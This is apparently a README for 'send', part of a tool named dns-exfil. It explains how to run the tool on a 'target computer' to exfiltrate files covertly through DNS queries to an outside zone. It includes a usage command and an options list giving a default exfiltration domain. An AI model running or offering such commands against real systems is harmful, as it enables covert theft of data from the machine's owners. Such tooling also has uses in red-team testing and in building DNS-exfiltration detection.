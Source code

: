 # dns-exfil: send

Run send on the target computer to exfiltrate files.

## How to use

```bash
$ send -d -file ../test-files/gpl-3.0.txt -marker wsxdec
```

## Options

```bash
$ send
  -d	enable debugging.
  -file string
    	the local file to exfiltrate.
  -help
    	show help.
  -marker string
    	a unique marker to identify the file in the dns logs. (default "jzp")
  -zone string
    	the dns zone to send the queries to. (default "exfil.go350.com")

```
